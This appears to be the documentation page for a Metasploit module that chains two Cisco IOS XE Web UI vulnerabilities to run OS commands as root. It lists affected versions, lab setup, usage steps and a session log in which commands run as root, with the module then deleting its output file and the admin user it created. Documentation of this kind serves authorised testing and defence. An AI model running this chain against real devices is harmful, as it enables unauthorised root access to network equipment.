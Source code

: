 ## Vulnerable Application
This module leverages both CVE-2023-20198 and CVE-2023-20273 against vulnerable instances of Cisco IOS XE
devices which have the Web UI exposed. An attacker can execute arbitrary OS commands with root privileges.

This module leverages CVE-2023-20198 to create a new admin user, then authenticating as this user,
CVE-2023-20273 is leveraged for OS command injection. The output of the command is written to a file and read
back via the webserver. Finally the output file is deleted and the admin user is removed.

The vulnerable IOS XE versions are:

16.1.1, 16.1.2, 16.1.3, 16.2.1, 16.2.2, 16.3.1, 16.3.2, 16.3.3, 16.3.1a, 16.3.4,
16.3.5, 16.3.5b, 16.3.6, 16.3.7, 16.3.8, 16.3.9, 16.3.10, 16.3.11, 16.4.1, 16.4.2,
16.4.3, 16.5.1, 16.5.1a, 16.5.1b, 16.5.2, 16.5.3, 16.6.1, 16.6.2, 16.6.3, 16.6.4,
16.6.5, 16.6.4s, 16.6.4a, 16.6.5a, 16.6.6, 16.6.5b, 16.6.7, 16.6.7a, 16.6.8, 16.6.9,
16.6.10, 16.7.1, 16.7.1a, 16.7.1b, 16.7.2, 16.7.3, 16.7.4, 16.8.1, 16.8.1a, 16.8.1b,
16.8.1s, 16.8.1c, 16.8.1d, 16.8.2, 16.8.1e, 16.8.3, 16.9.1, 16.9.2, 16.9.1a, 16.9.1b,
16.9.1s, 16.9.1c, 16.9.1d, 16.9.3, 16.9.2a, 16.9.2s, 16.9.3h, 16.9.4, 16.9.3s, 16.9.3a,
16.9.4c, 16.9.5, 16.9.5f, 16.9.6, 16.9.7, 16.9.8, 16.9.8a, 16.9.8b, 16.9.8c, 16.10.1,
16.10.1a, 16.10.1b, 16.10.1s, 16.10.1c, 16.10.1e, 16.10.1d, 16.10.2, 16.10.1f, 16.10.1g,
16.10.3, 16.11.1, 16.11.1a, 16.11.1b, 16.11.2, 16.11.1s, 16.11.1c, 16.12.1, 16.12.1s,
16.12.1a, 16.12.1c, 16.12.1w, 16.12.2, 16.12.1y, 16.12.2a, 16.12.3, 16.12.8, 16.12.2s,
16.12.1x, 16.12.1t, 16.12.2t, 16.12.4, 16.12.3s, 16.12.1z, 16.12.3a, 16.12.4a, 16.12.5,
16.12.6, 16.12.1z1, 16.12.5a, 16.12.5b, 16.12.1z2, 16.12.6a, 16.12.7, 16.12.9, 16.12.10,
17.1.1, 17.1.1a, 17.1.1s, 17.1.2, 17.1.1t, 17.1.3, 17.2.1, 17.2.1r, 17.2.1a, 17.2.1v,
17.2.2, 17.2.3, 17.3.1, 17.3.2, 17.3.3, 17.3.1a, 17.3.1w, 17.3.2a, 17.3.1x, 17.3.1z,
17.3.3a, 17.3.4, 17.3.5, 17.3.4a, 17.3.6, 17.3.4b, 17.3.4c, 17.3.5a, 17.3.5b, 17.3.7,
17.3.8, 17.4.1, 17.4.2, 17.4.1a, 17.4.1b, 17.4.1c, 17.4.2a, 17.5.1, 17.5.1a, 17.5.1b,
17.5.1c, 17.6.1, 17.6.2, 17.6.1w, 17.6.1a, 17.6.1x, 17.6.3, 17.6.1y, 17.6.1z, 17.6.3a,
17.6.4, 17.6.1z1, 17.6.5, 17.6.6, 17.7.1, 17.7.1a, 17.7.1b, 17.7.2, 17.10.1, 17.10.1a,
17.10.1b, 17.8.1, 17.8.1a, 17.9.1, 17.9.1w, 17.9.2, 17.9.1a, 17.9.1x, 17.9.1y, 17.9.3,
17.9.2a, 17.9.1x1, 17.9.3a, 17.9.4, 17.9.1y1, 17.11.1, 17.11.1a, 17.12.1, 17.12.1a,
17.11.99SW

## Testing
This module was tested against IOS XE version 16.12.3. To test this module you will need to either:

* Acquire a hardware device running one of the vulnerable firmware versions listed above.

Or

* Setup a virtualized environment.
    * A [CSR1000V](https://www.cisco.com/c/en/us/products/routers/cloud-services-router-1000v-series/index.html) device
      can be virtualized using [GNS3](https://www.gns3.com/) and VMWare Workstation/Player. Follow the [Windows setup guide](https://docs.gns3.com/docs/getting-started/installation/windows)
      to install GNS3 and the [topology guide](https://docs.gns3.com/docs/getting-started/your-first-gns3-topology) to learn
      how GNS3 can be used.
    * A suitable firmware image for testing would be `csr1000v-universalk9.16.12.03-serial.qcow2`.
    * When setting up GNS3, run the `GNS3 2.2.43` Virtual Machine for deploying QEMU based devices.
    * Create a new CSR1000V instance as a QEMU device.
    * The CSR1000V device's first ethernet adapter `Gi1` should be connected to a Cloud device, who's adapter is bridged
      to the physical adapter on the host machine, allowing an IP address to be assigned via DHCP, and allowing the Web UI to
      be accessible to a remote attacker.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/admin/http/cisco_ios_xe_os_exec_cve_2023_20273`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set CMD "id"`
5. `run`

## Scenarios

```
msf6 > use auxiliary/admin/http/cisco_ios_xe_os_exec_cve_2023_20273
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > set RHOST 192.168.86.57
RHOST => 192.168.86.57
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > set CMD "id"
CMD => id
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > show options

Module options (auxiliary/admin/http/cisco_ios_xe_os_exec_cve_2023_20273):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   CMD                    id               yes       The OS command to execute.
   Proxies                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   REMOVE_OUTPUT_TIMEOUT  30               yes       The maximum timeout (in seconds) to wait when trying to removing the commands output file.
   RHOSTS                 192.168.86.57    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                  443              yes       The target port (TCP)
   SSL                    true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                                   no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > run
[*] Running module against 192.168.86.57

[*] uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > run CMD="uname -a"
[*] Running module against 192.168.86.57

[*] Linux router 4.19.64 #1 SMP Wed Dec 11 10:30:30 PST 2019 x86_64 x86_64 x86_64 GNU/Linux

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) >  run CMD="cat /etc/release"
[*] Running module against 192.168.86.57

[*] # Needed for open-vm-tools
# Copyright (c) 2016 by Cisco Systems, Inc., All rights reserved.
DISTRIB_ID=Cisco
DISTRIB_RELEASE=3.10.84
DISTRIB_CODENAME=IOS-XE
DISTRIB_DESCRIPTION="Monte Vista Linux"

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > 
```